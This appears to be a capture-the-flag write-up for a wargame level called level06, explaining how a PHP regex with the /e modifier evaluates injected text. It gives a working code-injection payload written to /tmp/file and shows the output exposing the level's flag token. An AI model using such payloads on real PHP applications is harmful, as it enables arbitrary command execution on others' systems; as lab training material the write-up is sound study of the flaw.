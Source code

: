# level06

- By checking `level06.php` we can see a `/e` regex that execute the code inside

- We can write to a file in tmp `/tmp/file`
    > [x {${exec(getflag)}}]

- `$ level06 /tmp/file`
    > PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
    > PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1

